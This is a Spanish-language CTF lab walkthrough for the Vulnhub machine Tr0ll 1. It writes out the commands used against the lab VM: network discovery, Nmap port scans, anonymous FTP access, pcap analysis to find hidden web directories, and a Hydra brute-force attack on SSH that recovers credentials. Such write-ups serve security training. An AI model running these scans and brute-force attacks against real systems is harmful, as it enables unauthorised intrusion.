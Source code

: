 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=200&height=80&lines=TR0LL_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tr0ll-1,100/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/176079905-f35a37e9-416f-45a8-8f7e-3c49899c7252.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/176080128-62ec0641-3cfa-479f-8d07-737fc130d1aa.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/176081118-60dbaddd-22c5-48c2-9232-a18565c084e1.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio se sesión anónimo.

O.S: **Linux**

URL: `http://192.168.1.4`

![4](https://user-images.githubusercontent.com/75953873/176081949-b1bb16cd-4a6f-4c5a-9abf-136aa5cc5c53.png)

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.4
```
Usuario: `anonymous`

Contraseña: `anonymous`

Copiar el archivo `lol.pcap` hacia el directorio local:
```
get lol.pcap
```
![5](https://user-images.githubusercontent.com/75953873/176082571-6e2485ce-3890-4e4e-a022-40aeebc2310c.png)

- *Paso 5* Examinar captura de paquetes con Wireshark. 
```
wireshark lol.pcap
```
![6](https://user-images.githubusercontent.com/75953873/176084226-03fe75a3-9b3a-459a-96e7-c70f8112f8cc.png)

Aplicar filtro: `(ip.addr eq 10.0.0.6 and ip.addr eq 10.0.0.12) and (tcp.port eq 20 and tcp.port eq 51884)`

Directorio secreto: `sup3rs3cr3tdirlol`

URL completa: `http://192.168.1.4/sup3rs3cr3tdirlol`

![7](https://user-images.githubusercontent.com/75953873/176085343-f3ea1169-da6f-4107-b70e-bf9e439c2010.png)

Descargar archivo: 
```
wget http://192.168.1.4/sup3rs3cr3tdirlol/roflmao
```

Explorar el archivo con Strings:
```
string roflmao
```
![8](https://user-images.githubusercontent.com/75953873/176085855-ffc26116-24d7-4c34-87d4-578fa54dddbb.png)

Directorio secreto: `0x0856BF`

URL completa: `http://192.168.1.4/0x0856BF`

![9](https://user-images.githubusercontent.com/75953873/176086028-06516837-d580-49de-8f15-c045b71909ff.png)

El directorio `good_luck` contiene un fichero txt con una lista de nombres para realizar un ataque de fuerza bruta y conectarse al servicio **SSH**. 

URL completa: `http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt`
```
wget http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt && cat which_one_lol.txt
```
![10](https://user-images.githubusercontent.com/75953873/176086596-77994340-98ef-4c9c-8231-5963d17a4c17.png)

- *Paso 6* Ataque de fuerza bruta al servicio SSH con Hydra. 
```
hydra -L which_one_lol.txt -P rockyou.txt 192.168.1.4 ssh
```
![11](https://user-images.githubusercontent.com/75953873/176089030-02ebf4c5-56d9-4a11-89a1-34ab99c0e119.png)

Usuario: `overflow`

Contraseña: `Pass.txt`
